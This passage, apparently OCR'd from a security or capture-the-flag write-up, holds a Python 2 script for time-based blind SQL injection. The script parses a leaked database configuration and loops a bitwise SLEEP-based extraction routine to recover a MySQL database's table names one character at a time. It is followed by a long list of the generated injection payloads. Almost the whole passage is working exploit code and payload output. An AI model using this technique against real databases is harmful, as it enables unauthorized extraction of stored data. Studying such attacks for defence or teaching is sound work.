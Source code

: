 ```python
'''

db_conf = ast.literal_eval(re.sub(',([^,]*)>', '', re.search('{(.*)}', resp).group(0)))

db_name = db_conf.get('database')
db_user = db_conf.get('user')

def retrieve(payload, **kwargs):
	f, i = '', 0

	while True:
		i += 1
		c = exfil_sleep(payload, index=i, **kwargs)

		if c != b'\x00':
			f += c

		else:
			return f

print retrieve(get_table_names_from, db_name=db_name.encode('hex'))
```

Yields the following results;

```sql
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 1, 1)) >> 7 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 1, 1)) >> 6 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 1, 1)) >> 5 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 1, 1)) >> 4 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 1, 1)) >> 3 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 1, 1)) >> 2 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 1, 1)) >> 1 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 1, 1)) >> 0 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 2, 1)) >> 7 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 2, 1)) >> 6 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 2, 1)) >> 5 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 2, 1)) >> 4 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 2, 1)) >> 3 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 2, 1)) >> 2 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 2, 1)) >> 1 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 2, 1)) >> 0 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 3, 1)) >> 7 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 3, 1)) >> 6 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 3, 1)) >> 5 & 1) * .5)
```
